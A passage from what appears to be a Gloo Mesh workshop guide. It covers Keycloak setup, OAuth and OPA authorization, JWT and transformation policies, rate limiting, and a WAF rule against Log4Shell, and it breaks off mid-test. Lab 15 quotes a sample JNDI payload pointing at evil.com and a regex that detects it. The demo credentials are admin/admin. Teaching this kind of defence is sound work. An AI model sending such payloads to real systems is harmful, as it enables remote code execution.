echo "executing test dist/gloo-mesh-2-0-gateway-standalone/build/templates/steps/apps/httpbin/gateway-external-service/tests/httpbin-from-local.test.js.liquid"
tempfile=$(mktemp)
echo "saving errors in ${tempfile}"
mocha ./test.js --timeout 10000 --retries=50 --bail 2> ${tempfile} || { cat ${tempfile} && exit 1; }
-->
<!--bash
cat <<'EOF' > ./test.js
const helpersHttp = require('./tests/chai-http');

describe("httpbin from the external service", () => {
  it('Checking text \'X-Amzn-Trace-Id\' in ' + process.env.CLUSTER1, () => helpersHttp.checkBody({ host: 'https://' + process.env.ENDPOINT_HTTPS_GW_CLUSTER1, path: '/get', body: 'X-Amzn-Trace-Id', match: true }));
})
EOF
echo "executing test dist/gloo-mesh-2-0-gateway-standalone/build/templates/steps/apps/httpbin/gateway-external-service/tests/httpbin-from-external.test.js.liquid"
tempfile=$(mktemp)
echo "saving errors in ${tempfile}"
mocha ./test.js --timeout 10000 --retries=50 --bail 2> ${tempfile} || { cat ${tempfile} && exit 1; }
-->

If you refresh your browser, you should see that you get a response either from the local service or from the external service.

When the response comes from the external service (httpbin.org), there's a `X-Amzn-Trace-Id` header.

And when the response comes from the local service, there's a `X-B3-Parentspanid` header.

Finally, you can update the `RouteTable` to direct all the traffic to the local `httpbin` service:

```bash
kubectl apply --context ${CLUSTER1} -f - <<EOF
apiVersion: networking.gloo.solo.io/v2
kind: RouteTable
metadata:
  name: httpbin
  namespace: httpbin
  labels:
    expose: "true"
spec:
  http:
    - name: httpbin
      matchers:
      - uri:
          exact: /get
      forwardTo:
        destinations:
        - ref:
            name: not-in-mesh
            namespace: httpbin
            cluster: cluster1
          port:
            number: 8000
EOF
```

<!--bash
cat <<'EOF' > ./test.js
const helpersHttp = require('./tests/chai-http');

describe("httpbin from the local service", () => {
  it('Checking text \'X-Amzn-Trace-Id\' not in ' + process.env.CLUSTER1, () => helpersHttp.checkBody({ host: 'https://' + process.env.ENDPOINT_HTTPS_GW_CLUSTER1, path: '/get', body: 'X-Amzn-Trace-Id', match: false }));
})
EOF
echo "executing test dist/gloo-mesh-2-0-gateway-standalone/build/templates/steps/apps/httpbin/gateway-external-service/tests/httpbin-from-local.test.js.liquid"
tempfile=$(mktemp)
echo "saving errors in ${tempfile}"
mocha ./test.js --timeout 10000 --retries=50 --bail 2> ${tempfile} || { cat ${tempfile} && exit 1; }
-->

If you refresh your browser, you should see that you get responses only from the local service.

This diagram shows the flow of the requests :


Let's delete the `ExternalService` we've created:

```bash
kubectl --context ${CLUSTER1} -n httpbin delete externalservices.networking.gloo.solo.io httpbin
```


## Lab 10 - Deploy Keycloak <a name="lab-10---deploy-keycloak-"></a>

In many use cases, you need to restrict the access to your applications to authenticated users. 

OIDC (OpenID Connect) is an identity layer on top of the OAuth 2.0 protocol. In OAuth 2.0 flows, authentication is performed by an external Identity Provider (IdP) which, in case of success, returns an Access Token representing the user identity. The protocol does not define the contents and structure of the Access Token, which greatly reduces the portability of OAuth 2.0 implementations.

The goal of OIDC is to address this ambiguity by additionally requiring Identity Providers to return a well-defined ID Token. OIDC ID tokens follow the JSON Web Token standard and contain specific fields that your applications can expect and handle. This standardization allows you to switch between Identity Providers – or support multiple ones at the same time – with minimal, if any, changes to your downstream services; it also allows you to consistently apply additional security measures like Role-based Access Control (RBAC) based on the identity of your users, i.e. the contents of their ID token.

In this lab, we're going to install Keycloak. It will allow us to setup OIDC workflows later.

Let's install it:

```bash
kubectl --context ${MGMT} create namespace keycloak

kubectl apply --context ${MGMT} -f - <<EOF
apiVersion: v1
kind: Service
metadata:
  name: keycloak
  namespace: keycloak
  labels:
    app: keycloak
spec:
  ports:
  - name: http
    port: 8080
    targetPort: 8080
  selector:
    app: keycloak
  type: LoadBalancer
---
apiVersion: apps/v1
kind: Deployment
metadata:
  name: keycloak
  namespace: keycloak
  labels:
    app: keycloak
spec:
  replicas: 1
  selector:
    matchLabels:
      app: keycloak
  template:
    metadata:
      labels:
        app: keycloak
    spec:
      containers:
      - name: keycloak
        image: quay.io/keycloak/keycloak:20.0.1
        args: ["start-dev"]
        env:
        - name: KEYCLOAK_ADMIN
          value: "admin"
        - name: KEYCLOAK_ADMIN_PASSWORD
          value: "admin"
        - name: PROXY_ADDRESS_FORWARDING
          value: "true"
        ports:
        - name: http
          containerPort: 8080
        readinessProbe:
          httpGet:
            path: /realms/master
            port: 8080
EOF

kubectl --context ${MGMT} -n keycloak rollout status deploy/keycloak
```


<!--bash
cat <<'EOF' > ./test.js
const helpers = require('./tests/chai-exec');

describe("Keycloak", () => {
  it('keycloak pods are ready in cluster1', () => helpers.checkDeployment({ context: process.env.MGMT, namespace: "keycloak", k8sObj: "keycloak" }));
});
EOF
echo "executing test dist/gloo-mesh-2-0-gateway-standalone/build/templates/steps/deploy-keycloak/tests/pods-available.test.js.liquid"
tempfile=$(mktemp)
echo "saving errors in ${tempfile}"
mocha ./test.js --timeout 10000 --retries=50 --bail 2> ${tempfile} || { cat ${tempfile} && exit 1; }
-->

<!--bash
cat <<'EOF' > ./test.js
const chaiExec = require("@jsdevtools/chai-exec");
var chai = require('chai');
var expect = chai.expect;
chai.use(chaiExec);

afterEach(function (done) {
  if (this.currentTest.currentRetry() > 0) {
    process.stdout.write(".");
    setTimeout(done, 1000);
  } else {
    done();
  }
});

describe("Retrieve enterprise-networking ip", () => {
  it("A value for load-balancing has been assigned", () => {
    let cli = chaiExec("kubectl --context " + process.env.MGMT + " -n keycloak get svc keycloak -o jsonpath='{.status.loadBalancer}'");
    expect(cli).to.exit.with.code(0);
    expect(cli).output.to.contain('"ingress"');
  });
});
EOF
echo "executing test dist/gloo-mesh-2-0-gateway-standalone/build/templates/steps/deploy-keycloak/tests/keycloak-ip-is-attached.test.js.liquid"
tempfile=$(mktemp)
echo "saving errors in ${tempfile}"
mocha ./test.js --timeout 10000 --retries=50 --bail 2> ${tempfile} || { cat ${tempfile} && exit 1; }
-->

Then, we will configure it and create two users:

- User1 credentials: `user1/password`
  Email: user1@example.com

- User2 credentials: `user2/password`
  Email: user2@solo.io

<!--bash
until [[ $(kubectl --context ${MGMT} -n keycloak get svc keycloak -o json | jq '.status.loadBalancer | length') -gt 0 ]]; do
  sleep 1
done
-->

Let's set the environment variables we need:

```bash
export ENDPOINT_KEYCLOAK=$(kubectl --context ${MGMT} -n keycloak get service keycloak -o jsonpath='{.status.loadBalancer.ingress[0].*}'):8080
export HOST_KEYCLOAK=$(echo ${ENDPOINT_KEYCLOAK%:*})
export PORT_KEYCLOAK=$(echo ${ENDPOINT_KEYCLOAK##*:})
export KEYCLOAK_URL=http://${ENDPOINT_KEYCLOAK}
```

<!--bash
cat <<'EOF' > ./test.js
const dns = require('dns');
const chaiHttp = require("chai-http");
const chai = require("chai");
const expect = chai.expect;
chai.use(chaiHttp);
const { waitOnFailedTest } = require('./tests/utils');

afterEach(function(done) { waitOnFailedTest(done, this.currentTest.currentRetry())});

describe("Address '" + process.env.HOST_KEYCLOAK + "' can be resolved in DNS", () => {
    it(process.env.HOST_KEYCLOAK + ' can be resolved', (done) => {
        return dns.lookup(process.env.HOST_KEYCLOAK, (err, address, family) => {
            expect(address).to.be.an.ip;
            done();
        });
    });
});
EOF
echo "executing test ./gloo-mesh-2-0/tests/can-resolve.test.js.liquid"
tempfile=$(mktemp)
echo "saving errors in ${tempfile}"
mocha ./test.js --timeout 10000 --retries=50 --bail 2> ${tempfile} || { cat ${tempfile} && exit 1; }
-->
<!--bash
echo "Waiting for Keycloak to be ready at $KEYCLOAK_URL/realms/master/protocol/openid-connect/token"
timeout 300 bash -c 'while [[ "$(curl -m 2 -s -o /dev/null -w ''%{http_code}'' $KEYCLOAK_URL/realms/master/protocol/openid-connect/token)" != "405" ]]; do printf '.';sleep 1; done' || false
-->

Now, we need to get a token:

```bash
export KEYCLOAK_TOKEN=$(curl -m 2 -d "client_id=admin-cli" -d "username=admin" -d "password=admin" -d "grant_type=password" "$KEYCLOAK_URL/realms/master/protocol/openid-connect/token" | jq -r .access_token)
```

After that, we configure Keycloak:

```bash
# Create initial token to register the client
read -r client token <<<$(curl -m 2 -H "Authorization: Bearer ${KEYCLOAK_TOKEN}" -X POST -H "Content-Type: application/json" -d '{"expiration": 0, "count": 1}' $KEYCLOAK_URL/admin/realms/master/clients-initial-access | jq -r '[.id, .token] | @tsv')
export KEYCLOAK_CLIENT=${client}

# Register the client
read -r id secret <<<$(curl -m 2 -X POST -d "{ \"clientId\": \"${KEYCLOAK_CLIENT}\" }" -H "Content-Type:application/json" -H "Authorization: bearer ${token}" ${KEYCLOAK_URL}/realms/master/clients-registrations/default| jq -r '[.id, .secret] | @tsv')
export KEYCLOAK_SECRET=${secret}

# Add allowed redirect URIs
curl -m 2 -H "Authorization: Bearer ${KEYCLOAK_TOKEN}" -X PUT -H "Content-Type: application/json" -d '{"serviceAccountsEnabled": true, "directAccessGrantsEnabled": true, "authorizationServicesEnabled": true, "redirectUris": ["'https://${ENDPOINT_HTTPS_GW_CLUSTER1}'/callback","'https://${ENDPOINT_HTTPS_GW_CLUSTER1}'/portal-server/v1/login","'https://${ENDPOINT_HTTPS_GW_CLUSTER1}'/get"]}' $KEYCLOAK_URL/admin/realms/master/clients/${id}

# Add the group attribute in the JWT token returned by Keycloak
curl -m 2 -H "Authorization: Bearer ${KEYCLOAK_TOKEN}" -X POST -H "Content-Type: application/json" -d '{"name": "group", "protocol": "openid-connect", "protocolMapper": "oidc-usermodel-attribute-mapper", "config": {"claim.name": "group", "jsonType.label": "String", "user.attribute": "group", "id.token.claim": "true", "access.token.claim": "true"}}' $KEYCLOAK_URL/admin/realms/master/clients/${id}/protocol-mappers/models

# Create first user
curl -m 2 -H "Authorization: Bearer ${KEYCLOAK_TOKEN}" -X POST -H "Content-Type: application/json" -d '{"username": "user1", "email": "user1@example.com", "enabled": true, "attributes": {"group": "users"}, "credentials": [{"type": "password", "value": "password", "temporary": false}]}' $KEYCLOAK_URL/admin/realms/master/users

# Create second user
curl -m 2 -H "Authorization: Bearer ${KEYCLOAK_TOKEN}" -X POST -H "Content-Type: application/json" -d '{"username": "user2", "email": "user2@solo.io", "enabled": true, "attributes": {"group": "users"}, "credentials": [{"type": "password", "value": "password", "temporary": false}]}' $KEYCLOAK_URL/admin/realms/master/users
```

> **Note:** If you get a *Not Authorized* error, please, re-run this command and continue from the command started to fail:

```
KEYCLOAK_TOKEN=$(curl -m 2 -d "client_id=admin-cli" -d "username=admin" -d "password=admin" -d "grant_type=password" "$KEYCLOAK_URL/realms/master/protocol/openid-connect/token" | jq -r .access_token)
```


## Lab 11 - Securing the access with OAuth <a name="lab-11---securing-the-access-with-oauth-"></a>
[](https://youtu.be/fKZjr0AYxYs "Video Link")


In this step, we're going to secure the access to the `httpbin` service using OAuth.

First, we need to create a Kubernetes Secret that contains the OIDC secret:

```bash
kubectl apply --context ${CLUSTER1} -f - <<EOF
apiVersion: v1
kind: Secret
metadata:
  name: oauth
  namespace: httpbin
type: extauth.solo.io/oauth
data:
  client-secret: $(echo -n ${KEYCLOAK_SECRET} | base64)
EOF
```

Then, you need to create an `ExtAuthPolicy`, which is a CRD that contains authentication information: 

```bash
kubectl apply --context ${CLUSTER1} -f - <<EOF
apiVersion: security.policy.gloo.solo.io/v2
kind: ExtAuthPolicy
metadata:
  name: httpbin
  namespace: httpbin
spec:
  applyToRoutes:
  - route:
      labels:
        oauth: "true"
  config:
    server:
      name: ext-auth-server
      namespace: gloo-mesh-addons
      cluster: cluster1
    glooAuth:
      configs:
      - oauth2:
          oidcAuthorizationCode:
            appUrl: "https://${ENDPOINT_HTTPS_GW_CLUSTER1}"
            callbackPath: /callback
            clientId: ${KEYCLOAK_CLIENT}
            clientSecretRef:
              name: oauth
              namespace: httpbin
            issuerUrl: "${KEYCLOAK_URL}/realms/master/"
            session:
              failOnFetchFailure: true
              redis:
                cookieName: keycloak-session
                options:
                  host: redis:6379
            scopes:
            - email
            headers:
              idTokenHeader: jwt
EOF
```

Finally, you need to update the `RouteTable` to use this `ExtAuthPolicy`:

```bash
kubectl apply --context ${CLUSTER1} -f - <<EOF
apiVersion: networking.gloo.solo.io/v2
kind: RouteTable
metadata:
  name: httpbin
  namespace: httpbin
  labels:
    expose: "true"
spec:
  http:
    - name: httpbin
      labels:
        oauth: "true"
      matchers:
      - uri:
          exact: /get
      - uri:
          exact: /logout
      - uri:
          prefix: /callback
      forwardTo:
        destinations:
        - ref:
            name: not-in-mesh
            namespace: httpbin
            cluster: cluster1
          port:
            number: 8000
EOF
```

<!--bash
cat <<'EOF' > ./test.js
const chaiExec = require("@jsdevtools/chai-exec");
const helpersHttp = require('./tests/chai-http');
var chai = require('chai');
var expect = chai.expect;

describe("Authentication is working properly", function() {
  let user = 'user2';
  let password = 'password';
  let keycloak_client_id = chaiExec("kubectl --context " + process.env.CLUSTER1 + " -n httpbin get extauthpolicy httpbin -o jsonpath='{.spec.config.glooAuth.configs[0].oauth2.oidcAuthorizationCode.clientId}'").stdout.replaceAll("'", "");
  let keycloak_client_secret_base64 = chaiExec("kubectl --context " + process.env.CLUSTER1 + " -n httpbin get secret oauth -o jsonpath='{.data.client-secret}'").stdout.replaceAll("'", "");
  let buff = new Buffer(keycloak_client_secret_base64, 'base64');
  let keycloak_client_secret = buff.toString('ascii');
  let keycloak_token = JSON.parse(chaiExec('curl -d "client_id=' + keycloak_client_id + '" -d "client_secret=' + keycloak_client_secret + '" -d "scope=openid" -d "username=' + user + '" -d "password=' + password + '" -d "grant_type=password" "' + process.env.KEYCLOAK_URL +'/realms/master/protocol/openid-connect/token"').stdout.replaceAll("'", "")).id_token;
  it("The httpbin page isn't accessible without authenticating", () => helpersHttp.checkURL({ host: 'https://' + process.env.ENDPOINT_HTTPS_GW_CLUSTER1, path: '/get', retCode: 302 }));
  it("The httpbin page is accessible after authenticating", () => helpersHttp.checkURL({ host: 'https://' + process.env.ENDPOINT_HTTPS_GW_CLUSTER1, path: '/get', headers: [{key: 'Authorization', value: 'Bearer ' + keycloak_token}], retCode: 200 }));
});

EOF
echo "executing test dist/gloo-mesh-2-0-gateway-standalone/build/templates/steps/apps/httpbin/gateway-extauth-oauth/tests/authentication.test.js.liquid"
tempfile=$(mktemp)
echo "saving errors in ${tempfile}"
mocha ./test.js --timeout 10000 --retries=50 --bail 2> ${tempfile} || { cat ${tempfile} && exit 1; }
-->

If you refresh the web browser, you will be redirected to the authentication page.

If you use the username `user1` and the password `password` you should be redirected back to the `httpbin` application.

You can also perform authorization using OPA.

First, you need to create a `ConfigMap` with the policy written in rego:

```bash
kubectl apply --context ${CLUSTER1} -f - <<EOF
apiVersion: v1
kind: ConfigMap
metadata:
  name: allow-solo-email-users
  namespace: httpbin
data:
  policy.rego: |-
    package test

    default allow = false

    allow {
        [header, payload, signature] = io.jwt.decode(input.state.jwt)
        endswith(payload["email"], "@solo.io")
    }
EOF
```

Then, you need to update the `ExtAuthPolicy` object to add the authorization step:

```bash
kubectl apply --context ${CLUSTER1} -f - <<EOF
apiVersion: security.policy.gloo.solo.io/v2
kind: ExtAuthPolicy
metadata:
  name: httpbin
  namespace: httpbin
spec:
  applyToRoutes:
  - route:
      labels:
        oauth: "true"
  config:
    server:
      name: ext-auth-server
      namespace: gloo-mesh-addons
      cluster: cluster1
    glooAuth:
      configs:
      - oauth2:
          oidcAuthorizationCode:
            appUrl: "https://${ENDPOINT_HTTPS_GW_CLUSTER1}"
            callbackPath: /callback
            clientId: ${KEYCLOAK_CLIENT}
            clientSecretRef:
              name: oauth
              namespace: httpbin
            issuerUrl: "${KEYCLOAK_URL}/realms/master/"
            logoutPath: /logout
            afterLogoutUrl: "https://${ENDPOINT_HTTPS_GW_CLUSTER1}/get"
            session:
              failOnFetchFailure: true
              redis:
                cookieName: keycloak-session
                options:
                  host: redis:6379
            scopes:
            - email
            headers:
              idTokenHeader: jwt
      - opaAuth:
          modules:
          - name: allow-solo-email-users
            namespace: httpbin
          query: "data.test.allow == true"
EOF
```

Refresh the web page. `user1` shouldn't be allowed to access it anymore since the user's email ends with `@example.com`.
If you open the browser in incognito and login using the username `user2` and the password `password`, you will now be able to access it since the user's email ends with `@solo.io`.

This diagram shows the flow of the request (with the Istio ingress gateway leveraging the `extauth` Pod to authorize the request):




## Lab 12 - Use the JWT filter to create headers from claims <a name="lab-12---use-the-jwt-filter-to-create-headers-from-claims-"></a>
[](https://youtu.be/bpFKbhUIwgM "Video Link")


In this step, we're going to validate the JWT token and to create a new header from the `email` claim.

Keycloak is running outside of the Service Mesh, so we need to define an `ExternalService` and its associated `ExternalEndpoint`:

Let's start by the latter:

```bash
kubectl apply --context ${CLUSTER1} -f - <<EOF
apiVersion: networking.gloo.solo.io/v2
kind: ExternalEndpoint
metadata:
  name: keycloak
  namespace: httpbin
  labels:
    host: keycloak
spec:
  address: ${HOST_KEYCLOAK}
  ports:
  - name: http
    number: ${PORT_KEYCLOAK}
EOF
```

Then we can create the former:

```bash
kubectl apply --context ${CLUSTER1} -f - <<EOF
apiVersion: networking.gloo.solo.io/v2
kind: ExternalService
metadata:
  name: keycloak
  namespace: httpbin
  labels:
    expose: "true"
spec:
  hosts:
  - keycloak
  ports:
  - name: http
    number: ${PORT_KEYCLOAK}
    protocol: HTTP
  selector:
    host: keycloak
EOF
```

Now, we can create a `JWTPolicy` to extract the claim.

Create the policy:

```bash
kubectl apply --context ${CLUSTER1} -f - <<EOF
apiVersion: security.policy.gloo.solo.io/v2
kind: JWTPolicy
metadata:
  name: httpbin
  namespace: httpbin
spec:
  applyToRoutes:
  - route:
      labels:
        oauth: "true"
  config:
    phase:
      postAuthz:
        priority: 1
    providers:
      keycloak:
        issuer: ${KEYCLOAK_URL}/realms/master
        tokenSource:
          headers:
          - name: jwt
        remote:
          url: ${KEYCLOAK_URL}/realms/master/protocol/openid-connect/certs
          destinationRef:
            kind: EXTERNAL_SERVICE
            ref:
              name: keycloak
            port:
              number: ${PORT_KEYCLOAK}
        claimsToHeaders:
        - claim: email
          header: X-Email
EOF
```

You can see that it will be applied to our existing route and also that we want to execute it after performing the external authentication (to have access to the JWT token).

If you refresh the web page, you should see a new `X-Email` header added to the request with the value `user2@solo.io`

<!--bash
cat <<'EOF' > ./test.js
const chaiExec = require("@jsdevtools/chai-exec");
const helpersHttp = require('./tests/chai-http');
var chai = require('chai');
var expect = chai.expect;

describe("Claim to header is working properly", function() {
  let user = 'user2';
  let password = 'password';
  let keycloak_client_id = chaiExec("kubectl --context " + process.env.CLUSTER1 + " -n httpbin get extauthpolicy httpbin -o jsonpath='{.spec.config.glooAuth.configs[0].oauth2.oidcAuthorizationCode.clientId}'").stdout.replaceAll("'", "");
  let keycloak_client_secret_base64 = chaiExec("kubectl --context " + process.env.CLUSTER1 + " -n httpbin get secret oauth -o jsonpath='{.data.client-secret}'").stdout.replaceAll("'", "");
  let buff = new Buffer(keycloak_client_secret_base64, 'base64');
  let keycloak_client_secret = buff.toString('ascii');
  let keycloak_token = JSON.parse(chaiExec('curl -d "client_id=' + keycloak_client_id + '" -d "client_secret=' + keycloak_client_secret + '" -d "scope=openid" -d "username=' + user + '" -d "password=' + password + '" -d "grant_type=password" "' + process.env.KEYCLOAK_URL +'/realms/master/protocol/openid-connect/token"').stdout.replaceAll("'", "")).id_token;
  it('The new header has been added', () => helpersHttp.checkBody({ host: 'https://' + process.env.ENDPOINT_HTTPS_GW_CLUSTER1, path: '/get', headers: [{key: 'Authorization', value: 'Bearer ' + keycloak_token}], body: '"X-Email": "user2@solo.io"' }));
});

EOF
echo "executing test dist/gloo-mesh-2-0-gateway-standalone/build/templates/steps/apps/httpbin/gateway-jwt/tests/header-added.test.js.liquid"
tempfile=$(mktemp)
echo "saving errors in ${tempfile}"
mocha ./test.js --timeout 10000 --retries=50 --bail 2> ${tempfile} || { cat ${tempfile} && exit 1; }
-->


## Lab 13 - Use the transformation filter to manipulate headers <a name="lab-13---use-the-transformation-filter-to-manipulate-headers-"></a>


In this step, we're going to use a regular expression to extract a part of an existing header and to create a new one:

Let's create a `TransformationPolicy` to extract the claim.

```bash
kubectl apply --context ${CLUSTER1} -f - <<EOF
apiVersion: trafficcontrol.policy.gloo.solo.io/v2
kind: TransformationPolicy
metadata:
  name: modify-header
  namespace: httpbin
spec:
  applyToRoutes:
  - route:
      labels:
        oauth: "true"
  config:
    phase:
      postAuthz:
        priority: 2
    request:
      injaTemplate:
        extractors:
          organization:
            header: 'X-Email'
            regex: '.*@(.*)$'
            subgroup: 1
        headers:
          x-organization:
            text: "{{ organization }}"
EOF
```

You can see that it will be applied to our existing route and also that we want to execute it after performing the external authentication (to have access to the JWT token).

If you refresh the web page, you should see a new `X-Organization` header added to the request with the value `solo.io`

<!--bash
cat <<'EOF' > ./test.js
const chaiExec = require("@jsdevtools/chai-exec");
const helpersHttp = require('./tests/chai-http');
var chai = require('chai');
var expect = chai.expect;

describe("Tranformation is working properly", function() {
  let user = 'user2';
  let password = 'password';
  let keycloak_client_id = chaiExec("kubectl --context " + process.env.CLUSTER1 + " -n httpbin get extauthpolicy httpbin -o jsonpath='{.spec.config.glooAuth.configs[0].oauth2.oidcAuthorizationCode.clientId}'").stdout.replaceAll("'", "");
  let keycloak_client_secret_base64 = chaiExec("kubectl --context " + process.env.CLUSTER1 + " -n httpbin get secret oauth -o jsonpath='{.data.client-secret}'").stdout.replaceAll("'", "");
  let buff = new Buffer(keycloak_client_secret_base64, 'base64');
  let keycloak_client_secret = buff.toString('ascii');
  let keycloak_token = JSON.parse(chaiExec('curl -d "client_id=' + keycloak_client_id + '" -d "client_secret=' + keycloak_client_secret + '" -d "scope=openid" -d "username=' + user + '" -d "password=' + password + '" -d "grant_type=password" "' + process.env.KEYCLOAK_URL +'/realms/master/protocol/openid-connect/token"').stdout.replaceAll("'", "")).id_token;
  it('The new header has been added', () => helpersHttp.checkBody({ host: 'https://' + process.env.ENDPOINT_HTTPS_GW_CLUSTER1, path: '/get', headers: [{key: 'Authorization', value: 'Bearer ' + keycloak_token}], body: '"X-Organization": "solo.io"' }));
});

EOF
echo "executing test dist/gloo-mesh-2-0-gateway-standalone/build/templates/steps/apps/httpbin/gateway-transformation/tests/header-added.test.js.liquid"
tempfile=$(mktemp)
echo "saving errors in ${tempfile}"
mocha ./test.js --timeout 10000 --retries=50 --bail 2> ${tempfile} || { cat ${tempfile} && exit 1; }
-->


## Lab 14 - Apply rate limiting to the Gateway <a name="lab-14---apply-rate-limiting-to-the-gateway-"></a>


In this step, we're going to apply rate limiting to the Gateway to only allow 3 requests per minute for the users of the `solo.io` organization.

First, we need to create a `RateLimitClientConfig` object to define the descriptors:

```bash
kubectl apply --context ${CLUSTER1} -f - <<EOF
apiVersion: trafficcontrol.policy.gloo.solo.io/v2
kind: RateLimitClientConfig
metadata:
  name: httpbin
  namespace: httpbin
spec:
  raw:
    rateLimits:
    - setActions:
      - requestHeaders:
          descriptorKey: organization
          headerName: X-Organization
EOF
```

Then, we need to create a `RateLimitServerConfig` object to define the limits based on the descriptors:

```bash
kubectl apply --context ${CLUSTER1} -f - <<EOF
apiVersion: admin.gloo.solo.io/v2
kind: RateLimitServerConfig
metadata:
  name: httpbin
  namespace: httpbin
spec:
  destinationServers:
  - ref:
      cluster: cluster1
      name: rate-limiter
      namespace: gloo-mesh-addons
    port:
      name: grpc
  raw:
    setDescriptors:
      - simpleDescriptors:
          - key: organization
            value: solo.io
        rateLimit:
          requestsPerUnit: 3
          unit: MINUTE
EOF
```

After that, we need to create a `RateLimitPolicy` object to define the descriptors:

```bash
kubectl apply --context ${CLUSTER1} -f - <<EOF
apiVersion: trafficcontrol.policy.gloo.solo.io/v2
kind: RateLimitPolicy
metadata:
  name: httpbin
  namespace: httpbin
spec:
  applyToRoutes:
  - route:
      labels:
        ratelimited: "true"
  config:
    serverSettings:
      name: rate-limit-server
      namespace: gloo-mesh-addons
      cluster: cluster1
    ratelimitClientConfig:
      name: httpbin
      namespace: httpbin
      cluster: cluster1
    ratelimitServerConfig:
      name: httpbin
      namespace: httpbin
      cluster: cluster1
    phase:
      postAuthz:
        priority: 3
EOF
```

Finally, you need to update the `RouteTable` to use this `RateLimitPolicy`:

```bash
kubectl apply --context ${CLUSTER1} -f - <<EOF
apiVersion: networking.gloo.solo.io/v2
kind: RouteTable
metadata:
  name: httpbin
  namespace: httpbin
  labels:
    expose: "true"
spec:
  http:
    - name: httpbin
      labels:
        oauth: "true"
        ratelimited: "true"
      matchers:
      - uri:
          exact: /get
      - uri:
          prefix: /callback
      forwardTo:
        destinations:
        - ref:
            name: not-in-mesh
            namespace: httpbin
          port:
            number: 8000
EOF
```

Refresh the web page multiple times.

<!--bash
cat <<'EOF' > ./test.js
const chaiExec = require("@jsdevtools/chai-exec");
const helpersHttp = require('./tests/chai-http');
var chai = require('chai');
var expect = chai.expect;

describe("Rate limiting is working properly", function() {
  let user = 'user2';
  let password = 'password';
  let keycloak_client_id = chaiExec("kubectl --context " + process.env.CLUSTER1 + " -n httpbin get extauthpolicy httpbin -o jsonpath='{.spec.config.glooAuth.configs[0].oauth2.oidcAuthorizationCode.clientId}'").stdout.replaceAll("'", "");
  let keycloak_client_secret_base64 = chaiExec("kubectl --context " + process.env.CLUSTER1 + " -n httpbin get secret oauth -o jsonpath='{.data.client-secret}'").stdout.replaceAll("'", "");
  let buff = new Buffer(keycloak_client_secret_base64, 'base64');
  let keycloak_client_secret = buff.toString('ascii');
  let keycloak_token = JSON.parse(chaiExec('curl -d "client_id=' + keycloak_client_id + '" -d "client_secret=' + keycloak_client_secret + '" -d "scope=openid" -d "username=' + user + '" -d "password=' + password + '" -d "grant_type=password" "' + process.env.KEYCLOAK_URL +'/realms/master/protocol/openid-connect/token"').stdout.replaceAll("'", "")).id_token;
  it('The httpbin page should be rate limited', () => helpersHttp.checkURL({ host: 'https://' + process.env.ENDPOINT_HTTPS_GW_CLUSTER1, path: '/get', headers: [{key: 'Authorization', value: 'Bearer ' + keycloak_token}], retCode: 429 }));
});

EOF
echo "executing test dist/gloo-mesh-2-0-gateway-standalone/build/templates/steps/apps/httpbin/gateway-ratelimiting/tests/rate-limited.test.js.liquid"
tempfile=$(mktemp)
echo "saving errors in ${tempfile}"
mocha ./test.js --timeout 10000 --retries=50 --bail 2> ${tempfile} || { cat ${tempfile} && exit 1; }
-->

You should get a `200` response code the first 3 time and a `429` response code after.

This diagram shows the flow of the request (with the Istio ingress gateway leveraging the `rate limiter` Pod to determine if the request should be allowed):


Let's apply the original `RouteTable` yaml:
```bash
kubectl apply --context ${CLUSTER1} -f - <<EOF
apiVersion: networking.gloo.solo.io/v2
kind: RouteTable
metadata:
  name: httpbin
  namespace: httpbin
  labels:
    expose: "true"
spec:
  http:
    - name: httpbin
      matchers:
      - uri:
          exact: /get
      forwardTo:
        destinations:
        - ref:
            name: not-in-mesh
            namespace: httpbin
          port:
            number: 8000
EOF
```

And also delete the different objects we've created:
```bash
kubectl --context ${CLUSTER1} -n httpbin delete ratelimitpolicy httpbin
kubectl --context ${CLUSTER1} -n httpbin delete ratelimitclientconfig httpbin
kubectl --context ${CLUSTER1} -n httpbin delete ratelimitserverconfig httpbin
```


## Lab 15 - Use the Web Application Firewall filter <a name="lab-15---use-the-web-application-firewall-filter-"></a>
[](https://youtu.be/9q2TxtBDqrA "Video Link")


A web application firewall (WAF) protects web applications by monitoring, filtering, and blocking potentially harmful traffic and attacks that can overtake or exploit them.

Gloo Mesh includes the ability to enable the ModSecurity Web Application Firewall for any incoming and outgoing HTTP connections. 

An example of how using Gloo Mesh we'd easily mitigate the recent Log4Shell vulnerability ([CVE-2021-44228](https://nvd.nist.gov/vuln/detail/CVE-2021-44228)), which for many enterprises was a major ordeal that took weeks and months of updating all services.

The Log4Shell vulnerability impacted all Java applications that used the log4j library (common library used for logging) and that exposed an endpoint. You could exploit the vulnerability by simply making a request with a specific header. In the example below, we will show how to protect your services against the Log4Shell exploit. 

Using the Web Application Firewall capabilities you can reject requests containing such headers. 

Log4Shell attacks operate by passing in a Log4j expression that could trigger a lookup to a remote server, like a JNDI identity service. The malicious expression might look something like this: `${jndi:ldap://evil.com/x}`. It might be passed in to the service via a header, a request argument, or a request payload. What the attacker is counting on is that the vulnerable system will log that string using log4j without checking it. That’s what triggers the destructive JNDI lookup and the ultimate execution of malicious code.

Create the WAF policy:

```bash
kubectl apply --context ${CLUSTER1} -f - <<EOF
apiVersion: security.policy.gloo.solo.io/v2
kind: WAFPolicy
metadata:
  name: log4shell
  namespace: httpbin
spec:
  applyToRoutes:
  - route:
      labels:
        waf: "true"
  config:
    disableCoreRuleSet: true
    customInterventionMessage: 'Log4Shell malicious payload'
    customRuleSets:
    - ruleStr: |
        SecRuleEngine On
        SecRequestBodyAccess On
        SecRule REQUEST_LINE|ARGS|ARGS_NAMES|REQUEST_COOKIES|REQUEST_COOKIES_NAMES|REQUEST_BODY|REQUEST_HEADERS|XML:/*|XML://@*  
          "@rx \\\${jndi:(?:ldaps?|iiop|dns|rmi)://" 
          "id:1000,phase:2,deny,status:403,log,msg:'Potential Remote Command Execution: Log4j CVE-2021-44228'"
EOF
```

In this example, we're going to update the main `RouteTable` to enforce this policy for all the applications exposed through the gateway (in any workspace).

```bash
kubectl apply --context ${CLUSTER1} -f - <<EOF
apiVersion: networking.gloo.solo.io/v2
kind: RouteTable
metadata:
  name: main
  namespace: istio-gateways
spec:
  hosts:
    - '*'
  virtualGateways:
    - name: north-south-gw
      namespace: istio-gateways
      cluster: cluster1
  workloadSelectors: []
  http:
    - name: root
      labels:
        waf: "true"
      matchers:
      - uri:
          prefix: /
      delegate:
        routeTables:
          - labels:
              expose: "true"
        sortMethod: ROUTE_SPECIFICITY
EOF
```

<!--bash
cat <<'EOF' > ./test.js
const chaiExec = require("@jsdevtools/chai-exec");
